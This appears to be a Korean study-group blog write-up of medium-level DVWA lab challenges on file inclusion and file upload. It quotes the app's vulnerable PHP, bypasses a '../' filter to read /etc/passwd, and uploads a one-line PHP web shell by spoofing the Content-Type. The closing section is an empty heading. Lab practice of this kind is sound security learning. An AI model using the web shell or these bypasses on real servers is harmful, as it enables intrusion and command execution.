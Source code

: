```yaml
---
layout: default
title: Day37
nav_order: 2

parent: Hacking Project - W6
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----
중간 난이도로 설정한 뒤 시작!

# > DVWA: File Inclusion

## 삽질

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```
low 레벨을 풀 때는 몰랐는데 사실 상위 경로로 이동해서 유의미한 파일을 찾는 문제였다 하하;;

<br>

## Write up

`/etc/passwd` 입력을 하면 바로 출력이 된다.

![image-20220524161023545](../img/image-20220524161023545.png)

<br>

`../`을 공백으로 치환하는 것을 우회하기 위해서 .../../를 이용했다. `.'../'./` 작은 따옴표 부분이 치환되면 `../`가 완성되는 원리이다. 

![image-20220524161306423](../img/image-20220524161306423.png)



<br><br><br>

-----

# > DVWA: File Upload

## 삽질

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}
?> 
```

파일의 확장자 검사를 진행한다. jpeg와 png가 아니면 업로드를 제한하려는 듯하다.

<br>

## Write up

 `php` 확장자를 업로드 하면서 타입을 변경해주면 업로드 될 것이다.

먼저 업로드하려는  medium.php 이다.

```php
<?php
$cmd = $_GET['c'];
system($cmd);
?>
```

V3 안끄고 계속 만들다가 계속 삭제되고 있었다. 그것도 모르고 재부팅만 4번하는 해프닝이 ^^;;

위 코드의 확장자는 php이고, 해당 파일을 업로드 하였을 때 패킷을 잡은 모습이다.

![image-20220524224754626](img/image-20220524224754626.png)

코드에서 감지하는 부분으로 예상되니 이 부분을 "image/jpeg" 로 수정하고 전달하자.

![image-20220524225114928](img/image-20220524225114928.png)

성공적으로 업로드 되는 것을 확인할 수 있다.

<br><br><br>

-----

# > DVWA : 

## 삽질

## Write up



